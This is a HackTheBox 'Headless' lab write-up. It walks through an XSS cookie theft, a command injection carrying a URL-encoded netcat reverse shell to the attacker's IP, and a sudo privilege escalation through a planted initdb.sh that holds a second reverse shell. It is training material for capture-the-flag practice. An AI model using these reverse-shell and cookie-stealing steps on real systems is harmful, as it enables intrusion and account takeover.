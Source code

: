 ```yaml
---
title: HackTheBox - Headless
date: 2024-08-05 18:09:00 +0800
categories:
  - hackthebox
tags:
  - ctf
---
```



### STEP 1 SCAN 

First of all, let's do an nmap scan with the following flag:

```nmap -p- -sC -sV -T4 10.10.11.8```

- -p- to scan all ports
- -sC to execute the default scripts
- -sV to see which services are running
- -T4 to to use a timing template to make our scan faster

With the output of our scan we can see we have 2 ports open:
![nmap.png](nmap.png)
- Port 22 for ssh(Secure Shell), this will not interest us because it is very rare to find a security vulnerability on the SSH protocol
- Port 5000 we have an http server, it will greatly interest us because we now know that we have to deal with a web server

Just open the browser with the following url 
https://<IP_TARGETED>:<PORT_NUMBER>

![[website1.png]]

### STEP 2 ENUMERATION

Now that we know we are dealing with a web server we can perform dirbusting to know the files of the website

I used gobuster for this with the following flags :
- dir for dirbusting(enumeration of the directories of the website)
- -u to specify the url targeted
- -w to specify the wordlist to use

Either the following command
``` gobuster dir -u http://10.10.11.8:5000/ -w /./usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt ```

With the following output of our gobuster command we can see we have only two directories for this website:
![[website2.png]]

When we're on the the website with the IP address following by the port is we click on the button "For questions" we're redirected on the directory /support 

We can not access the/dashboard because as a user we are not allowed, so it must be borne in mind that connection cookies will make full part of this challenge

### 3 STEP INTERACT LIKE A USER

Ok, now we're here
![[website3.png]]
If we complete each section and click on submit, nothing happens. 
In this case we can try to do an XSS(Cross Site Scripting) a persistent XSS (because we will inject malicious code form that will be injected and run in the browser of the victim)

Like this : 
![[website4.png]]

Now we have something is going on:
![[website5.png]]

Now that we’re done acting as a user, it’s time to put on the hacker hood to slip on your best goodie and launch burpsuite

###  STEP 4 TRY TO HAVE ACCESS TO DASHBOARD

Here, the objective is to get the cookie of the administrator to be able to connect to the dashboard, that’s why we will put our machine on listening on the port of our choice (here port 9001), to be able to receive the cookie from the administrator when his browser will load our form.

Use the following command to put your machine on listening.

```nc -lnvp 9001 ```

- nc stands for the tool netcat
- -l for listen mode
- -v for verbosity
- -n only for IP address
- -p to specify the specific port


Just launch burpsuite (if you're like what's that tool don't worry we can learn that [here](https://www.geeksforgeeks.org/what-is-burp-suite/))
![[burpsuite_off.png]]

You can enable request interception,
![[burpsuite_on.png]]
When we return our malicious request we can change the parameters here in this case the user agent parameter because the modification of the user agent does not change the data contained in the request.

We can find our xss payload [here](https://gist.github.com/leveled/2b5d2b2c458f553b17c65551487cee9b#file-xss-payload-steal-session-cookie) :
In the payload just replace by your IP address following by the port of your choice (here 9001)

Now we have what we are looking for :
![[burp1.png]]
 Now as we can see the admin cookie is our :
 ![[response_nc.png]]

In your browser now you can try to access to the dashboard directory, if you can't don't worry it is normal, the only thing you need to do is to go to the developer console of your browser and to enter in the Storage section --> Cookies section --> And to replace the value of the cookie present with that of our admin
![[cookie.png]]

### STEP 5 LET'S TAKE A FOOT IN THE MACHINE

Now from this dashboard we will see with the help of ntore ami burp suite what happens when we click on the button "Generate a report".

![[before_ci.png]]

we can see if there are a command injection ?

![[ci.png]]

That's right, we have a command injection.

What we’re going to do is we’re going to create a reverse shell and we’re going to url encode our command to make sure that our reverse shell works

That's our command, 

```nc 10.10.16.11 60000 -e /bin/bash ```

Now let's url encode:

nc%2010.10.16.11%2060000%20-e%20%2Fbin%2Fbash

you need before performing the command injection to listen on the port of your choice here port 60000

``` nc -lnvp 60000```

just put our command and send the request

![[ci2.png]]


Now we have one foot in the machine :
(We can have a better shell using the command 
```python3 -c 'import pty; pty.spawn("/bin/bash")'``` )

![[revshell1.png]]
We can now obtain our first flag
![[screenflag.png]]
Let's goo !!!! We're a user, ok now let's try to be root!!!

### STEP 6 : A PRIVILEGE ESCALATION MUST BE PERFORMED

with the command ```sudo -l```, let's which command we can run 
We have this output:

Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

We need to have more information about this command syscheck
The bash code behind this command is as follows

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

this command execute an other file initdb.sh and that's very interesting because when you type 
```shell
find -type f -name "initdb.sh"
```
We can see we have no output the file "initdb.sh" doesn't exist then we can create it, let's go.

I jump in the folder /./tmp because we need to have full rights to create and modify our "initdb.sh" like this (We use the binary netcat to do a priviledge escalation):

```shell
echo '#!/bin/bash' > initdb.sh ; echo 'nc 10.10.16.11 60001 -e "/bin/bash"' >> initdb.sh
```

We just have to execute our command :

```shell
sudo syscheck
```

And as you can see :

![[root.png]]

Now you just have to cat the flag and GG you pwn the Headless Machine.

If you ever have the machine pwn in another way or you find my post incomplete do not hesitate to notify me via my twitter

Thank you for reading this post, have a good day.




















